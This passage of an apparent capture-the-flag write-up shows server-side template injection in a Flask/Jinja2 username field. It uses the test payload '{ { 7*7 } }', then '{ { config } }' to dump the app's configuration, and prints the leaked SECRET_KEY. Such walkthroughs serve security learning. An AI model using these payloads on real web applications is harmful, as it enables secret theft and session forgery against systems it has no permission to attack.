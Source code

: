 Trying SSTI on username field with `{ { 7*7 } }` and get math output on "User information" page 

![](/assets/img/posts/spider/ssti-in-user.png)

but because of the character limit we can not do much with it but it is a flask app(probably template engine `jinja2`, but it is python) so we can dump config file and get the secret key with `{ { config } }`

![](/assets/img/posts/spider/secret-key.png)

```py
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```
